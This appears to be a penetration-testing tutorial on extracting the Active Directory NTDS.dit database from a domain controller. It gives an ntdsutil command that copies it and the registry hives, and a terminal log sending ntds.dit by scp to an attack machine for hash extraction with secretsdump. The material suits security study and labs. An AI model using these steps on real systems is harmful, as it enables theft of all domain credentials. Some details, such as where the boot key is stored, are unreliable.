 # Domain Controller

## NTDS

NTDS is located in `C:\Windows\NTDS` by default, and it is encrypted to prevent data extraction from a target machine. 
Accessing the `NTDS.dit` file from the machine running is disallowed since the file is used by Active Directory and 
is locked. And there are various ways to gain access to it. 

Get a copy of the NTDS file using the `ntdsutil` and `Diskshadow` tool and dump the file's content. Decrypting the NTDS 
file requires a system Boot Key to decrypt LSA Isolated credentials. The Boot Key is stored in the SECURITY file system. 

## Ntdsutil

`Ntdsutil` is a Windows utility to used manage and maintain Active Directory configurations. It can be used in various 
scenarios:

* Restore deleted objects in Active Directory.
* Perform maintenance for the AD database.
* Active Directory snapshot management.
* Set Directory Services Restore Mode (DSRM) administrator passwords.

## Local Dumping (No Credentials)

This is usually done if you have no credentials available but have administrator access to the domain controller. 
Therefore, we will be relying on Windows utilities to dump the NTDS file and crack them offline. As a requirement, 
first, we assume we have administrator access to a domain controller. 

To successfully dump the content of the NTDS file we need the following files:

    C:\Windows\NTDS\ntds.dit
    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\config\SECURITY

To dump the NTDS file using the Ntdsutil tool in the `C:\temp` directory:

    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

The `c:\temp` directory now has two folders: Active Directory and registry, which contain the three files we need. 
Transfer them to the attack machine and run the `secretsdump.py` script to extract the hashes from the dumped memory 
file.

```text
c:\temp\Active Directory>scp .\ntds.dit nina@10.18.22.77:/home/nina/Downloads/last/
The authenticity of host '10.18.22.77 (10.18.22.77)' can't be established.
ECDSA key fingerprint is SHA256:RMXbGfqwBW5FiYWOSV2vVgv3+ypBISNAIlY/qZawIJ0.
Are you sure you want to continue connecting (yes/no)?
Warning: Permanently added '10.18.22.77' (ECDSA) to the list of known hosts.
nina@10.18.22.77's password:
ntds.dit                                                                              100%   24MB   1.2MB/s   00:20

c:\temp\Active Directory>cd ..\registry

c:\temp\registry>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362
```